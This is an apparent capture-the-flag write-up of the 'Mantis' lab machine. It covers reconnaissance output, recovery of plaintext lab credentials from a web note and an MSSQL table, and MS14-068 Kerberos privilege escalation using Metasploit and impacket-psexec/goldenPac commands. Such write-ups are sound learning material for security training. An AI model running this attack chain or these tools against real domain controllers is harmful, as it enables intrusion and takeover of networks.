










Introdution
Mantis was an interesting box with a somewhat realistic chain of attack, it started off with two webservers both IIS one had Orchard CMS the other had a secret directory which contained some credentials which you could use to access MSSQL db which you then used to find the plaintext credentials for a user james.
The box was pretty old and vulnerable to MS14-068 which we exploited to get a root-shel.
Nmap
Information Recon
Ports tcp open in nmap format
PORT STATE SERVICE REASON
53/tcp open domain syn-ack
88/tcp open kerberos-sec syn-ack
135/tcp open msrpc syn-ack
139/tcp open netbios-ssn syn-ack
389/tcp open ldap syn-ack
445/tcp open microsoft-ds syn-ack
1433/tcp open ms-sql-s syn-ack
8080/tcp open http-proxy syn-ack
49152/tcp open unknown syn-ack
49153/tcp open unknown syn-ack
49155/tcp open unknown syn-ack
49157/tcp open unknown syn-ack
Ports services and versions nmap format
# Nmap 7.93 scan initiated Wed Jul 26 15:48:15 2023 as: nmap -p 50255,139,3269,88,8080,464,49153,389,3268,135,49158,49186,49154,49152,47001,49155,636,49166,53,593,445,1337,49157,5722,49170,9389,1433 -sC -sV -oA scans/Mantis 10.129.140.187
Nmap scan report for 10.129.140.187
Host is up (0.21s latency).
PORT STATE SERVICE VERSION
53/tcp open domain Microsoft DNS 6.1.7601 (1DB15CD4) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_ bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2023-07-26 12:48:25Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp open microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
464/tcp open tcpwrapped
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
1337/tcp open http Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods:
|_ Potentially risky methods: TRACE
|_http-title: IIS7
1433/tcp open ms-sql-s Microsoft SQL Server 2014 12.00.2000.00; RTM
| ms-sql-ntlm-info:
| 10.129.140.187:1433:
| Target_Name: HTB
| NetBIOS_Domain_Name: HTB
| NetBIOS_Computer_Name: MANTIS
| DNS_Domain_Name: htb.local
| DNS_Computer_Name: mantis.htb.local
| DNS_Tree_Name: htb.local
|_ Product_Version: 6.1.7601
|_ssl-date: 2023-07-26T12:49:44+00:00; -7h00m00s from scanner time.
| ms-sql-info:
| 10.129.140.187:1433:
| Version:
| name: Microsoft SQL Server 2014 RTM
| number: 12.00.2000.00
| Product: Microsoft SQL Server 2014
| Service pack level: RTM
| Post-SP patches applied: false
|_ TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-07-26T12:29:09
|_Not valid after: 2053-07-26T12:29:09
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5722/tcp open msrpc Microsoft Windows RPC
8080/tcp open http Microsoft IIS httpd 7.5
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Tossed Salad - Blog
9389/tcp open mc-nmf .NET Message Framing
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open msrpc Microsoft Windows RPC
49153/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
49155/tcp open msrpc Microsoft Windows RPC
49157/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49158/tcp open msrpc Microsoft Windows RPC
49166/tcp open msrpc Microsoft Windows RPC
49170/tcp open msrpc Microsoft Windows RPC
49186/tcp open msrpc Microsoft Windows RPC
50255/tcp open ms-sql-s Microsoft SQL Server 2014 12.00.2000.00; RTM
| ms-sql-ntlm-info:
| 10.129.140.187:50255:
| Target_Name: HTB
| NetBIOS_Domain_Name: HTB
| NetBIOS_Computer_Name: MANTIS
| DNS_Domain_Name: htb.local
| DNS_Computer_Name: mantis.htb.local
| DNS_Tree_Name: htb.local
|_ Product_Version: 6.1.7601
| ms-sql-info:
| 10.129.140.187:50255:
| Version:
| name: Microsoft SQL Server 2014 RTM
| number: 12.00.2000.00
| Product: Microsoft SQL Server 2014
| Service pack level: RTM
| Post-SP patches applied: false
|_ TCP port: 50255
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-07-26T12:29:09
|_Not valid after: 2053-07-26T12:29:09
|_ssl-date: 2023-07-26T12:49:44+00:00; -7h00m00s from scanner time.
Service Info: Host: MANTIS; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 210:
|_ Message signing enabled and required
| smb-os-discovery:
| OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
| OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
| Computer name: mantis
| NetBIOS computer name: MANTIS\x00
| Domain name: htb.local
| Forest name: htb.local
| FQDN: mantis.htb.local
|_ System time: 2023-07-26T08:49:29-04:00
| smb-security-mode:
| account_used: <blank>
| authentication_level: user
| challenge_response: supported
|_ message_signing: required
|_clock-skew: mean: -6h25m42s, deviation: 1h30m43s, median: -7h00m00s
| smb2-time:
| date: 2023-07-26T12:49:27
|_ start_date: 2023-07-26T12:29:02
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 26 15:49:50 2023 -- 1 IP address (1 host up) scanned in 95.81 seconds
Ports UDP nmap format
Discovered open port 53/udp on 10.129.140.187
Enumeration
Port 8080 - HTTP (IIS)

Website is being runned by Orchard CMS
Directory searching with gobuster returns:
/archive (Status: 200) [Size: 2866]
/blogs (Status: 200) [Size: 2913]
/admin (Status: 302) [Size: 163] [--> /Users/Account/AccessDenied?ReturnUrl=%2Fadmin]
/tags (Status: 200) [Size: 2453]
/Archive (Status: 200) [Size: 2866]
/pollArchive (Status: 200) [Size: 2870]
/Blogs (Status: 200) [Size: 2913]
/newsarchive (Status: 200) [Size: 2870]
/news_archive (Status: 200) [Size: 2871]
/Admin (Status: 302) [Size: 163] [--> /Users/Account/AccessDenied?ReturnUrl=%2FAdmin]
/*checkout* (Status: 400) [Size: 3420]
/news-archive (Status: 200) [Size: 2871]
/shoutbox_archive (Status: 200) [Size: 2875]
/newsletter_archive (Status: 200) [Size: 2877]
/fsb_archive (Status: 200) [Size: 2870]
/poll_archive (Status: 200) [Size: 2871]
/*docroot* (Status: 400) [Size: 3420]
/fortune500_archive (Status: 200) [Size: 2877]
/* (Status: 400) [Size: 3420]
/press_archive (Status: 200) [Size: 2872]
We can easily deduce that archive can have any prefix, also directories are case-insensitive because of IIS.
Port 389 - LDAP

Port 88 - Kerberos
I fire off a kerbrute in the background and it finds some users:
__ __ __
/ /_____ _____/ /_ _______ __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 07/26/23 - Ronnie Flathers @ropnop
2023/07/26 16:40:21 > Using KDC(s):
2023/07/26 16:40:21 > 10.129.141.53:88
2023/07/26 16:40:22 > [+] VALID USERNAME: james@htb.local
2023/07/26 16:41:16 > [+] VALID USERNAME: administrator@htb.local
2023/07/26 16:42:12 > [+] VALID USERNAME: mantis@htb.local
Port 1337 - HTTP
This is another Microsoft IIS server, running another scan on this yields:
/secure_notes
/orchard

The web.config 404s
/secure_notes contains
dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt:
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.
[trunc]... -> trunc because of whitespace
Credentials stored in secure format
OrchardCMS admin creadentials 010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001
SQL Server sa credentials file namez
The base64 in the filename decodes to: m$$ql_S@_P@ssW0rd! and the username is sa
The creds for orchard cms decode to @dm!n_P@ssW0rd!
Port 1433 - MSSQL
We can access the mssql server using impacket

I was encountering some stability issues with the box and had to restart it.
I prefer to use a GUI to interact with MSSQL so I'll fire up DBeaver
If you get an SSL error that mentions TLS 1.0 and TLS 1.1, you can fix it using: https://github.com/dbeaver/dbeaver/issues/12668#issuecomment-909301270 on Kali(may vary, if this doesn't work one of the others in the repo issue will)
Anyway, this link told me where the credentials are stored: https://weblogs.asp.net/bleroy/recovering-the-admin-password-in-orchard
So I took a look in blog_Orchard_Users_UserPartRecord, and found some creds:

One is a salted hash the other is plaintext:
- james:J@m3s_P@ssW0rd!
- admin:AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A== (salt is UBwWF1CQCsaGc/P7jIR/kg==)
I tried the credentials on the website, but it errored out! LDAP was also a bust
Bloodhound?
Running bloodhound-python(ingestor) to gather information:

Analysing the information we find that the user james can RDP into the box:

I don't see how that's helpful since there's no RDP service available on the box by the looks of it? Nothing else sticks out.
The Breakthrough
If we had paid attention to the Windows Version Information that CrackMapExec prints we would have noticed that the Service Pack stands out
ma1ware@shadow:~/pentest/htb/boxes/Mantis$ crackmapexec smb mantis -u 'james' -p creds --shares
/home/ma1ware/.local/lib/python3.11/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (1.26.12) or chardet (5.1.0)/charset_normalizer (2.0.12) doesn't match a supported version!
warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "
SMB mantis.htb.local 445 MANTIS [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB mantis.htb.local 445 MANTIS [+] htb.local\james:J@m3s_P@ssW0rd!
SMB mantis.htb.local 445 MANTIS [+] Enumerated shares
SMB mantis.htb.local 445 MANTIS Share Permissions Remark
SMB mantis.htb.local 445 MANTIS ----- ----------- ------
SMB mantis.htb.local 445 MANTIS ADMIN$ Remote Admin
SMB mantis.htb.local 445 MANTIS C$ Default share
SMB mantis.htb.local 445 MANTIS IPC$ Remote IPC
SMB mantis.htb.local 445 MANTIS NETLOGON READ Logon server share
SMB mantis.htb.local 445 MANTIS SYSVOL READ Logon server share
ma1ware@shadow:~/pentest/htb/boxes/Mantis$
Initially I thought that there might be a possible eternalblue attack but I quickly discarded that after a quick check
Googling around with the Windows version info we get MS14-068 which affects domain controllers? Coincidence I think not.
The exploit also exists in metasploit so we'll do the exploit both ways.
Metasploit Framework
Naturally as I was about to move onto the exploitation process the box crashed again! So starting up a new instance of the box
First we need to get the sid of the user:
ma1ware@shadow:~/pentest/htb/boxes/Mantis$ rpcclient -U 'james' 10.129.165.179
Password for [WORKGROUP\james]:
rpcclient $> lookupnames james
james S-1-5-21-4220043660-4019079961-2895681657-1103 (User: 1)
rpcclient $>
I also tried with impacket and that also worked "somewhat"
ma1ware@shadow:~/pentest/htb/boxes/Mantis$ impacket-lookupsid htb.local/james@10.129.165.179
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
Password:
[*] Brute forcing SIDs at 10.129.165.179
[*] StringBinding ncacn_np:10.129.165.179[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4220043660-4019079961-2895681657
498: HTB\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: HTB\Administrator (SidTypeUser)
501: HTB\Guest (SidTypeUser)
502: HTB\krbtgt (SidTypeUser)
512: HTB\Domain Admins (SidTypeGroup)
513: HTB\Domain Users (SidTypeGroup)
514: HTB\Domain Guests (SidTypeGroup)
515: HTB\Domain Computers (SidTypeGroup)
516: HTB\Domain Controllers (SidTypeGroup)
517: HTB\Cert Publishers (SidTypeAlias)
518: HTB\Schema Admins (SidTypeGroup)
519: HTB\Enterprise Admins (SidTypeGroup)
520: HTB\Group Policy Creator Owners (SidTypeGroup)
521: HTB\Read-only Domain Controllers (SidTypeGroup)
553: HTB\RAS and IAS Servers (SidTypeAlias)
571: HTB\Allowed RODC Password Replication Group (SidTypeAlias)
572: HTB\Denied RODC Password Replication Group (SidTypeAlias)
1000: HTB\MANTIS$ (SidTypeUser)
1101: HTB\DnsAdmins (SidTypeAlias)
1102: HTB\DnsUpdateProxy (SidTypeGroup)
1103: HTB\james (SidTypeUser)
1104: HTB\SQLServer2005SQLBrowserUser$MANTIS (SidTypeAlias)
ma1ware@shadow:~/pentest/htb/boxes/Mantis$
Setting up metasploit and running we succeed!

Yeah, no it didn't work
ma1ware@shadow:~/pentest/htb/boxes/Mantis$ KRB5CCNAME=20230726183221_default_10.129.165.179_mit.kerberos.cca_175363.bin impacket-psexec -k -no-pass james@htb.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[-] SMB SessionError: STATUS_MORE_PROCESSING_REQUIRED({Still Busy} The specified I/O request packet (IRP) cannot be disposed of because the I/O operation is not complete.)
Right, this is awkward, let's just pretend this never happened.
Just kidding, it's just an issue with our time, let's sync it with the dc and generate the ticket again
$ sudo rdate -n 10.129.165.179
Re-generating the exploit, and boom we get a shell

Non-metasploit method
Another way to exploit this would be to use the impacket-goldenPac script.

If you really felt like it you can also use the exploit on SecWiki since that isn't as automated as much.
Anyway that's the box!